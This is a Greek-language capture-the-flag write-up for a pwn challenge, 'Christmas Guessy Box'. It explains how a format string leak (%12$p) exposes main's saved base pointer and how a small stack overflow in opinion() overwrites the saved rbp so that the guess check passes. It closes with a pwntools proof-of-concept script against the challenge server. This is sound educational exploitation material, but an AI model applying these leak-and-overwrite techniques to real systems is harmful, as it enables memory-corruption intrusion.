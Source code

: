 **Title**: &emsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Christmas Guessy Box\
\
**Description**:&nbsp;&nbsp;&nbsp;&nbsp;Every CTF must have a good guessy challenge after all... So pip install luck and may THE luckiest get the flag!!\
\
**Author**:&emsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; &nbsp;N0_Sp3c14l_Ch4r
\
\
Αρχικά ελέγχουμε τα mitigations του εκτελέσιμου.\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/a68c824a-5238-4279-bbf5-f69cdf5b9311)\
\
Παρατηρούμε πως έχει Partial RELRO, NX και PIE enabled. Ωστόσο, δε θα χρειαστεί να ασχοληθούμε με αυτά στη συνέχεια.\

# Σχετικά με το challenge:
Ανοίγοντας το binary σε κάποιον decompiler (let's say Ghidra) παρατηρούμε τα εξής:
* Αρχικά το εκτελέσιμο δημιουργεί ένα seed για την `srand()`, αξιοποιώντας την τυχαιότητα του `/dev/urandom`
* Στη συνέχεια, με βάση αυτό το seed, δημιουργεί δύο τυχαίους αριθμούς μέσω της `rand()`, έστω τους `rand_1` και `rand_2`
* Αποθηκεύει στο global variable `secret_number` την τιμή `rand_1` * $256^{3}$ + `rand_2` δημιουργώντας έτσι έναν 8byte unsigned long. Στο σημείο αυτό σημειώνουμε πως την τιμή αυτή την αποθηκεύει και σε μία τοπική μεταβλητή της `main()`, δηλαδή αυτή η τιμή βρίσκεται και στο stack frame της `main()` (θα μας χρειαστεί παρακάτω)

Κατόπιν καλείται η συνάρτηση `game()`, στην οποία συμβαίνουν τα εξής:
* Αρχικά ζητείται από τον χρήστη να πλκτρολογήσει το όνομά του. Προσοχή πως αποθηκεύονται έως `14` χαρακτήρες. Ακόμη, το παρόν βήμα συμβαίνει μόνο στην πρώτη προσπάθεια.
* Ακολούθως ζητείται από τον χρήστη να πληκτρολογήσει έναν αριθμό (έως 10 ψηφίων), τον οποίον το πρόγραμμα μετατρέπει σε `unsigned long` μέσω της `strtol()`
* Εφόσον δεν προκύψει κάποιο σφάλμα κατά την κλήση της `strtol()`, καλείται η συνάρτηση `opinion()`, στην οποία ο χρήστης μπορεί να γράψει τη γνώμη του για τα μελομακάρονα <3
* Αφού επιστρέψει η `opinion()`, τυώνεται στο `stdout` ο αριθμός που έδωσε προηγουμένως ο χρήστης και έπειτα συγκρίνεται με την τιμή που είχε αποθηκευτεί κατά την έναρξη της `main()` στη μεταβλητή `secret_number`
* Αν οι δύο τιμές είναι ίσες, τότε εκτελείται η `win()` και τυπώνεται στο `stdout` το **flag**. Διαφορετικά η `game()` επιστρέφει και η εκτέλεση συνεχίζεται στη `main()`

Σε περίπτωση που ο χρήστης δεν μπόρεσε να μαντέψει το `secret_number`, το πρόγραμμα του δίνει ακόμα μία ευκαιρία στην οποία επαναλαμβάνονται όλα τα παραπάνω βήματα, τόσο της `main()`, όσο και της `game()`.

# Vulnerabilities:
Με βάση τα παραπάνω, γρήγορα καταλαβαίνουμε πως είναι μάλλον απίθανο να μπορέσουμε να μαντέψουμε τον τυχαίο αριθμό που παράγεται κατά την έναρξη. Κοιτάμε συνεπώς για πιθανές ευπάθειες που περίεχονται στο εκτελέσιμο. Γενικά αυτές είναι `2` και είναι σχετικά εύκολο να της εντοπίσουμε.
* Στη συνάρτηση `opinion()` υπάρχει **buffer overflow** καθώς ο πίνακας `local_48`, αν και χωράει `64` χαρακτήρες, το πρόγραμμα διαβάζει έως και `71` από το `stdin`. Παρατηρούμε πως οι έξτρα χαρακτήρες που μπορούμε να τοποθετήσουμε στο stack, δε φτάνουν προκειμένου να κάνουμε overwrite το return address της `opinion()`. Μπορούμε ωστόσο να κάνουμε overwrite την τιμή του base pointer.\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/fb60f1bd-6687-461a-a95d-9c164f419e70)
* Στη συνάρτηση `game()` υπάρχει ξεκάθαρο **format string vulnerability**, καθώς τα περιεχόμενα του buffer (char local_2a) που περιέχει τους χαρακτήρες του αριθμού που δίνουμε ως είσοδο, τυπώνονται χωρίς το κατάλληλο format specifier.\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/331ee7bc-75a3-4475-a52d-de0ff4250873)\
...\
...\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/af26af50-949f-41ef-92b2-2a1a110a5274)

# Exploitation:
Συνεπώς, με βάση τα παραπάνω θα πρέπει να βρούμε έναν τρόπο να περάσουμε επιτυχώς τον έλεγχο ισότητας μεταξύ του αριθμού που δίνουμε και του `secret_number` ώστε να πάρουμε το flag. Στο σημείο αυτό θυμίζουμε πως η τιμή του `secret_number` είναι αποθηκευμένη στο stack frame της `main()` και όπως σχολιάσαμε, μπορούμε να μεταβάλλουμε τον base pointer της συνάρτησης `opinion()`. **Hmmm...**\
Αν γνωρίζαμε την τιμή του base pointer της `main()`, τότε θα μπορούσαμε να κάνουμε overwrite τον base pointer της `opinion()`, δίνοντάς του κατάλληλη τιμή ώστε κατά τον έλεγχο, το offset από τον **rbp** της μεταβλητής που περιέχει το guess του χρήστη, να ταυτίζεται με το offset του base pointer της `main()` από την τοπική μεταβλητή της που περιέχει την τιμή του `secret_number`.\
Για να βρούμε την τιμή του base pointer της `main()` θα χρησιμοποιήσουμε το format string vulnerability που αναφέραμε παραπάνω. Εκτελώντας σε έναν debugger της επιλογής μας το εκτελέσιμο, μπορούμε να δούμε τα κάτωθι:\
* Θέτουμε breakpoint ακριβώς πριν κλειθεί η συνάρτηση `printf()` που είναι vulnerable σε format string. Παρατηρούμε πως το stack είναι ως εξής\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/8b631ab7-b5aa-47c9-b48d-5f2c31b7a0c8)\
Η τιμή του rbp της `main()` μπορούμε να δούμε πως είναι η `0x7fffffffdd40` (αυτό μπορούμε να το πιστοποιήσουμε εξετάζοντας το binary στον debugger).
* Με βάση αυτό, παίζοντας με τις τιμές στο format string vulnerability, βλέπουμε πως αν δώσουμε ως είσοδο για τη μαντεψιά μας το string `%12$p`, τότε κατά την εκτέλεση της `printf()`, θα τυπωθεί στο `stdout` η τιμή του rbp της `main()`. Καταφέρνουμε έτσι να πάρουμε το leak που θέλαμε.

Μένει να βρούμε και την τιμή με την οποία πρέπει να κάνουμε overwrite τον rbp της `opinion()` προκειμένου να ταυτίζονται τα offsets. Βλέπουμε ότι:\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/2b055ad6-62a3-42cf-9f15-c0a88a1b8779)\
Η τιμή του `secret_number` αποθηκεύται στο stack της `main()` και συγκεκριμένα στη θέση μνήμης `rbp-0x8`, όπου rbp η τιμή του rbp της `main()`. Ακόμα:\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/b4ef78e0-4a2f-44a7-8e45-7c37edb837ba)\
Η τιμή δηλαδή που συγκρίνεται με το `secret_number` είναι η τιμή που περιέχεται στη θέση μνήμης `rbp-0x8`, αυτή τη φορά όμως ο rbp είναι ο base pointer της συνάρτησης `game()`.\
\
Με άλλα λόγια τα offsets είναι ίδια ανάμεσα στις δύο μεταβλητές που συγκρίνει το πρόγραμμα. Αρκεί, λοιπόν, να κάνουμε overwrite την τιμή του rbp της συνάρτησης `opinion()`, με την τιμή του rbp της συνάρτησης `main()` (την οποία γνωρίζουμε εξαιτίας του leak). Έτσι, κατά το return της `opinion()`, ο rbp θα λάβει την τιμή του rbp της `main()` και όταν έρθει η ώρα της σύγκρισης, το `rbp-0x8` θα περιέχει τη διεύθυνση μνήμης της `main()` που είναι αποθηκευμένο το `secret_number` αντί για τη διεύθυνση της μνήμης που περιέχει τη μαντεψιά-νούμερο που δίνει ως είσοδο ο χρήστης. Ακολούθως, ο έλεγχος θα είναι επιτυχής και θα λάβουμε στο `stdout` το πολυπόθητο **flag**.\
\
Συνοψίζοντας:
* Κατά την πρώτη προσπάθεια, δίνουμε ως είσοδο για τον αριθμό το string `%12$p` και διαβάζουμε το memory leak που μας επιστρέφει το binary
* Κατά τη δεύτερη προσπάθεια, κάνουμε overflow τον buffer της `opinion()` έτσι ώστε να κάνουμε overwrite τον rbp με την τιμή που λάβαμε προηγουμένως (αναφερόμαστε στο leak)
* Το flag τυπώνεται επιτέλους στο τερματικό μας καθώς εκτελείται η `win()`

# POC:
Για το exploitation, μπορεί να χρησιμοποιηθεί το ακόλουθο script σε Python:
```Python
#N0_Sp3c14l_Ch4r

from pwn import *

#Connect to remote server
r = remote('0.cloud.chals.io', 21341)

#First payload, exploiting the format string vulnerability
payload1 = b'%12$p'

#Interacting with the binary (not important, you can add your own strings)
r.sendlineafter(b'name: ', b'Chagi')
r.sendlineafter(b'number: ', payload1)
r.sendlineafter(b'here: ', b'kek')

#Reading the memory leak
r.recvuntil(b'your guess')

r.recvline()
leak = int(r.recvline().strip().decode(), 16)
print(leak)
print(hex(leak))

#Second payload, exploiting the buffer overflow and overwriting the rbp
payload2 = b'A'*64 + p64(leak)

#Interacting with the binary for the second time (again you can change the '1337' string)
r.sendlineafter(b'number: ', b'1337')

#Triggering the BOF
r.sendlineafter(b'here: ', payload2)

#Flag on the terminal!!
r.interactive()

#PWNED
```
\
Εκτελώντας το παραπάνω, λαμβάνουμε ως έξοδο:\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/cec1a2ba-d1d6-4f6b-93ce-c3bef19f51fc)




